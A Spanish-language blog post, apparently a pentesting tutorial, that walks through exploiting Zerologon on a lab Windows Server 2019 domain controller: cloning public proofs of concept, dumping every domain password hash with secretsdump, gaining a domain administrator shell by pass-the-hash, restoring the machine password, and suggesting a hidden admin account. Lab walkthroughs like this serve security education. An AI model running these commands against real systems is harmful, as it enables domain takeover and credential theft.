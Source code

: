 ```yaml
---
layout: single
title: Zerologon en Windows Server 2019
excerpt: "En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del
dominio. Quiero recalcar que para realizar éste ataque no necesitamos
credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta
vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el
hash de la contraseña del administrador del dominio utilizaremos la conocida
técnica de pass the hash para obtener acceso al sistema con la cuenta del
administrador."
date: 2021-03-13
classes: wide
header:
  teaser: /assets/images/Zerologon/zerologon.jpg
  teaser_home_page: true
categories:
  - Windows
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


![](/assets/images/Zerologon/zerologon.jpg)

En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del dominio. Quiero recalcar que para realizar éste ataque no necesitamos credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el hash de la contraseña del administrador del dominio utilizaremos la conocida técnica de pass the hash para obtener acceso al sistema con la cuenta del administrador.

Utilizaremos una máquina virtual con Linux para la parte del atacante y otra
con Windows Server 2019 y Active Directory para la víctima.

![](/assets/images/Zerologon/windows-server.png)

En hackplayers explican en profundidad la vulnerabilidad.

[https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html](https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html)

Citando el artículo de hackplayers:

Zerologon se aprovecha de una vulnerabilidad en el servicio Netlogon, que se utiliza para diversas tareas relacionadas con la autenticación de usuarios y máquinas en controladores de dominio.

Netlogon utiliza un protocolo criptográfico basado en AES-CFB8 que define IVs fijos de 16 bytes de ceros en lugar de IVs aleatorios. Con esto, dada una clave aleatoria, hay una probabilidad de 1 entre 256 de que el cifrado AES de un bloque de todo ceros de como salida todo ceros. Dado que las cuentas de equipo no se bloquean después de intentos de inicio de sesión no válidos, simplemente podemos intentarlo varias veces hasta que obtengamos esa clave y la autenticación sea exitosa. La media esperada de intentos necesarios será de 256, lo que en la práctica sólo lleva unos tres segundos. Con este método, podemos iniciar sesión como cualquier ordenador del dominio. Esto incluye controladores de dominio de respaldo e incluso el propio controlador de dominio de destino. Conseguiremos cambiar la contraseña del equipo controlador de dominio a una cadena vacía (todo ceros) para obtener privilegios y poder obtener los hashese de todos los usuarios de Active Directory. Después de vulnerar el equipo podemos volver a cambiar la contraseña de la cuenta de equipo controlador de dominio para que todo vuelva a funcionar correctamente. Ahora el DC vuelve a comportarse normalmente y el atacante se ha convertido en administrador de dominio.

## Testeando si el servidor es vulnerable

La empresa Secura publicó una herramienta para identificar si una máquina es
vulnerable a Zerologon en un repositorio de github [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Nos clonamos la herramienta con `git clone
https://github.com/SecuraBV/CVE-2020-1472.git` y la lanzamos contra nuestro
controlador de dominio virtualizado, que se llama DC01 y tiene la ip
192.168.160.131

![](/assets/images/Zerologon/testing.png)

Y vemos que nos dice que es vulnerable a zerologon. Ésta vulnerabilidad afecta
a todas las versiones de Windows Server desde la 2008 R2, siempre que no
cuenten con las últimas actualizaciones instaladas. Microsoft sacó un parche en agosto, pero por lo visto había que editar el registro a mano para asegurarse de que el sistema quedaba completamente parcheado. En concreto la clave del registro es FullSecureChannelProtection y tiene que tener un valor de “1”. Se supone que en febrero tenía que salir la actualización que parcheaba definitivamente la vulnerabilidad, con lo cual deben de haber muchos servidores a dia de hoy que siguen siendo vulnerables.

El nombre del servidor y el del dominio se pueden averiguar rápidamente con
crackmapexec.

![](/assets/images/Zerologon/info.png)

## Explotando la vulnerabilidad y accediendo al sistema

Existen varias pruebas de concepto que explotan zerologon pero yo en este caso
voy a utilizar ésta: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Igual que antes, nos clonamos el repositorio con `git clone
https://github.com/dirkjanm/CVE-2020-1472.git`

![](/assets/images/Zerologon/clone.png)

Y ahora ejecutamos el script en python, pero antes vamos a crear un entorno
virtual con virtualenv para que no nos den problemas los scripts de impacket.

Para ello ejecutamos 
```
virtualenv zerologon
source zerologon/bin/activate
```

Ahora nos vamos al directorio opt y nos clonamos la suite de herramientas de
impacket

```
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
sudo pip install .
```

Ahora si, ejecutamos el exploit y vemos que funciona y nos dice Exploit
complete!

![](/assets/images/Zerologon/exploit.png)

Ahora ejecutamos el script de impacket secretsdump para obtener los hashes de
las contraseñas. Le pasamos un hash que corresponde a todo ceros para la cuenta
de máquina del controlador del dominio, por eso ponemos dom01.local/DC01$ con
un signo de dolar al final.

![](/assets/images/Zerologon/secrets.png)

Obtenemos tanto los hashes de las cuentas de usuario como los de las cuentas de
máquinas. Ésto es importante para poder después de ganar acceso al sistema
restablecer la contraseña de la cuenta de equipo y dejarla como estaba para que
todo siga funcionando correctamente.

Para usar pass the hash podemos utilizar wmiexec y obtendremos una sesión de
cmd de la cuenta del administrador del dominio.

![](/assets/images/Zerologon/pth.png)

Vemos que al ejecutar whoami nos devuelve dom01\administrador. Estamos dentro
de la máquina con la cuenta del administrador del dominio. En éste punto
podemos hacer lo que queramos, por ejemplo crearnos un usuario administrador
oculto para que no se vea desde windows, activar el escritorio remoto editando
el registro con los comandos reg y conectarnos por RDP al servidor.

Pero no nos olvidemos de que tenemos que restablecer la contraseña de la cuenta
de quipo para que todo funcione correctamente a nivel de active directory. Esto
es debido a que hemos cambiado la contraseña de la cuenta del equipo a nivel de
active directory, pero en la sam local sigue estando la original.

Para restablecerla usaremos de nuevo secretsdump pero esta vez con el hash del
administrador, lo que nos devolverá la *plain_password_hex* original para poder
restablecerla con el script restorepassword.py

```
secretsdump.py dom01.local/administrador@192.168.160.131 -target-ip 192.168.160.131 -hashes :57987b38d5ba54e02daa2d5d7579765b
```

Nos devuelve entre otras cosas la plain_password_hex de la cuenta de equipo en
la sam local.

```
DOM01\DC01$:plain_password_hex:fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

Solo quedaría ejecutar el script para restablecer la contraseña local de la
cuenta de equipo.

```
sudo python3 restorepassword.py dom01.local/DC01@DC01 -target-ip 192.168.160.131 -hexpass fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

![](/assets/images/Zerologon/restore.png)

Para comprobar si todo ha ido bien podemos ejecutar de nuevo nuestra primera
ejecución de secretsdump y esta vez debería dar error al no estar la contraseña
de la cuenta del equipo vacía.

![](/assets/images/Zerologon/error.png)

Y efectívamente, todo ha vuelto a la normalidad pero tenemos acceso al equipo
como administrador del dominio.
